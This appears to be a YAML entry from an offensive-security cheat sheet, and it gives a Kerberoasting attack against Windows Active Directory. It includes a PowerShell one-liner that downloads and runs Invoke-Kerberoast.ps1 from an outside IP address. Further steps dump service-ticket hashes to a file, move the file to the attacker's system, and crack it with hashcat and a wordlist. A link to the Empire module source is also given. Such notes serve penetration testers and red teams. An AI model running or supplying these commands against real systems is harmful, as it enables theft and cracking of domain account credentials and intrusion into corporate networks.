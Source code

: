 ```yaml
---
functions:
  privilege-escalation:
    - description: Execute a function, script, or application as another user
      code: |
		(1)	IEX((New-Object System.Net.WebClient).DownloadString('http://192.168.119.174/Invoke-Kerberoast.ps1'))
		(2)	Invoke-Kerberoast -OutputFormat HashCat|Select-Object -ExpandProperty hash | out-file -Encoding ASCII kerb.txt
		(3) Transfer the file over to attacker's system for cracking
		(4) Choose the account you want to crack and make into a unique file (for speed purposes)
		(5)	hashcat -m 13100 sqlserver.kb /usr/share/wordlists/rockyou.txt --force
resources: |
  https://www.pentestpartners.com/security-blog/how-to-kerberoast-like-a-boss/
  https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1
  
---
```

